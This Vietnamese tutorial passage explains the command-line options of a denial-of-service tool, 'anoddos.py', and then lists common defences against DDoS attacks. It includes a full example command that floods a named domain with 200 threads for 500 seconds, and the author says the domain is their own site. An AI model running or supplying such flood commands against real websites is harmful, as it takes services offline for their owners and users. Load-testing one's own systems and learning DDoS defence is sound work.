

Cú pháp câu lệnh:
`python3 anoddos.py [-h] [--target <URL>] [--method <HTTP>] [--time <time>]
[--threads <threads>]`

Trong đó

`-h hay –help` : hiển thị mục help của overload

`–target <URL>` : mục tiêu mà bạn muốn nhắm tới

`–method <HTTP>` : kiểu tấn công

`–time <giây>` : Thời gian chạy tool

`— thread <luồng>` : số luồng trên giây <tối đa 200>

Ví dụ 

`python3 anoddos.py --target vietnamconghoa.us --method HTTP --time 500 --thread 200`

Trong câu lệnh vừa rồi mình sử dụng Max thread xem web mình còn sống không và sau đây là kết quả

Nhờ vậy mà mình biết là website của mình khá là dễ chết. Sau đây là cách để phòng chống các cuộc tấn công từ chối dịch vụ

Các cách để phòng chống DDOS / DOS
Biện pháp kĩ thuật
Tăng cường khả năng xử lí hệ thống
Tối ưu hóa thuật toán
Nâng cấp máy chủ
Nâng cấp băng thông
Cài đặt đầy đủ các bản vá lỗi từ server
Sử dụng tường lửa
Công cụ phòng chống DDOS
Dùng hệ thống thiết bị, phần mềm hoặc dịch vụ giám sát an toàn mạng
Dùng thiết bị bảo vệ mạng có dịch vụ chống tấn công DDoS
Tường lửa cứng hoặc tường lửa mềm
